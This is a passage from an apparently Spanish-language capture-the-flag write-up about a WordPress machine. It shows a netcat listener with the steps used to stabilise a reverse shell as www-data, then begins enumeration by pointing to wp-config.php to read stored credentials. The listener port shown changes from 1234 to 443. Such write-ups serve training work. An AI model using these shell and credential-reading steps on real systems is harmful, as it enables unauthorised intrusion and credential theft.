 
Realicé el tratamiento de la *TTY*.
```bash
script /dev/null -c bash

www-data@host_/$ ^Z
zsh: suspended nc -nlvp 1234

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash

www-data@host:/$ stty rows 40 columns 123
```


### Enumeración

En los *Wordpress*, siempre hay un fichero de configuración que se llama `wp-config.php`, este fichero se encuentra el la ruta `/var/www/html/wordpress/wp-config.php`, si voy a esa ruta y veo el contenido del fichero
![](img/Pasted%20image%2020241228172824.png#center)
